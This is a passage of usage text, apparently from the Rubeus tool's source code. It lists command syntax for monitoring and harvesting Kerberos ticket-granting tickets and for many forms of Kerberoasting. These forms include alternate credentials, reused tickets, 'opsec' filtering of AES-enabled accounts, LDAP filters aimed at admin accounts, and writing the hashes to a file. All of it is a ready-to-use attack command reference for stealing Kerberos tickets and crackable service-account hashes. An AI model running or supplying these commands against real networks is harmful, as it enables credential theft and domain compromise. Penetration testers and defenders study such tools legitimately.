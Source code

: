         Monitor every /interval SECONDS (default 60) for new TGTs:
            Rubeus.exe monitor [/interval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]

        Monitor every /monitorinterval SECONDS (default 60) for new TGTs, auto-renew TGTs, and display the working cache every /displayinterval SECONDS (default 1200):
            Rubeus.exe harvest [/monitorinterval:SECONDS] [/displayinterval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]


     Roasting:

        Perform Kerberoasting:
            Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

        Perform Kerberoasting, outputting hashes to a file:
            Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]

        Perform Kerberoasting, outputting hashes in the file output format, but to the console:
            Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

        Perform Kerberoasting with alternate credentials:
            Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

        Perform Kerberoasting with an existing TGT:
            Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting with an existing TGT using an enterprise principal:
            Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
            Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/nowrap]

        Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
            Rubeus.exe kerberoast /usetgtdeleg [/nowrap]

        Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
            Rubeus.exe kerberoast /rc4opsec [/nowrap]

        List statistics about found Kerberoastable accounts without actually sending ticket requests:
            Rubeus.exe kerberoast /stats [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
            Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
            Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/nowrap]

